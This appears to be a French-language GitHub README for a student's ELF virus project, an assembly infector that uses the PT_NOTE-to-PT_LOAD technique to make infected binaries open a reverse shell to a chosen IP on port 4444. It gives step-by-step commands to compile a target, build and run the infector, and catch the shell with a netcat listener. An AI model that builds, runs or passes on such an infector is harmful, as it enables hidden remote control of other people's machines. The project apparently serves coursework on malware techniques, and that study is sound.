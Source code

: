 # tp_note-tp_load-asm

Lucas MILLER 3SI4

Ce projet est un programme d'infection d'ELF à travers la méthode pt_note to pt_load.

Il n'est pas nécessaire de désactiver l'ASLR.
Ce programme est dynamique et ne nécessite donc pas de modifier le code lors de l'utilisation sur un autre programme.
Une fois infecté, le programme va, lors de son lancement, exécuter un reverse shell sur l'IP choisie.
L'IP peut être choisie lors du lancement, mais le port sera toujours 4444.

Il fonctionne sur les ELF avec les arguments -no-pie.

### Voici les commandes à lancer pour vérifier son bon fonctionnement.

Compiler le programme sain. Il peut être modifié en amont.
```
gcc -no-pie saine-code/safe_code.c -o saine-code/safe_code
```

Compilation de l'infecteur :
Il se compile ainsi :
```
nasm -f elf64 -o main/pt_note_to_pt_load_infector.o main/pt_note_to_pt_load_infector.s && ld -o main/pt_note_to_pt_load_infector main/pt_note_to_pt_load_infector.o
```
Puis lancement du programme :
Il va infecter le programme donné en argument
```
main/pt_note_to_pt_load_infector saine-code/safe_code
```

## Pour vérifier le reverse shell : 
```
saine-code/safe_code
```

Éxécution normal du programme

```
saine-code/safe_code
```

En parallèle :

```
nc -lnvp 4444

```


